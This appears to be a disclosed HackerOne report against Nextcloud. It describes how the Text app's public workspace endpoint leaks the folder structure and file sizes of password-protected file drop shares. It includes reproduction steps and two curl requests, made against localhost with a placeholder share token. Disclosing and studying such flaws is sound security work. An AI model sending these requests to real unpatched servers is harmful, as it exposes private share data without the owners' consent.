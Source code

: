 # Folder architecture and Filesizes of private file drop shares can be getten

## Report Details
- **Report ID**: 1337422
- **URL**: https://hackerone.com/reports/1337422
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2021-09-12T10:40:41.355Z
- **Disclosed**: 2022-04-09T13:08:38.397Z

## Reporter
- **Username**: shakierbellows
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nextcloud

## Vulnerability Information
## Steps To Reproduce:

1. Create a new Folder "TestABC"
2. Share a password protected link of this folder
3. Create a file "README.md" and a file "README.md" in the Subfolder "Subfolder".

==> curl -H "OCS-APIREQUEST: true" "http://localhost/ocs/v2.php/apps/text/public/workspace?shareToken=ABCDE12345"

==> curl -H "OCS-APIREQUEST: true" "http://localhost/ocs/v2.php/apps/text/public/workspace?shareToken=ABCDE12345&folder=subfolder"

## Impact

Folder architecture and Filesizes of private file drop shares can be getten

## Attachments
No attachments

